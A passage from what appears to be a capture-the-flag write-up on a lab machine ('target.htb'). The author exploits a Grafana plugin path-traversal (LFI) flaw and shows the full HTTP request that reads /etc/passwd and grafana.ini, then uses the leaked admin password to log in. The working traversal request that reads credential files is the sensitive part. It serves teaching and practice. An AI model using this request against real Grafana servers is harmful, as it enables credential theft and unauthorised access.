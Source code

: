 ```http
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```

I found the LFI vulnerability quickly, but from there it took me a while to find how to use it. I read a bunch of files, but nothing I could use to get access to the server.

I read the Grafana configuration. 

```http
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini HTTP/1.1
Host: target.htb:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect_to=%2F
Upgrade-Insecure-Requests: 1
```

It returned a huge configuration file. It contained an admin password.

```ini
#################################### Security ####################################
[security]
# disable creation of admin user on first start of grafana
;disable_initial_admin_creation = false

# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = REDACTED
```

I used the password to login in Grafana.
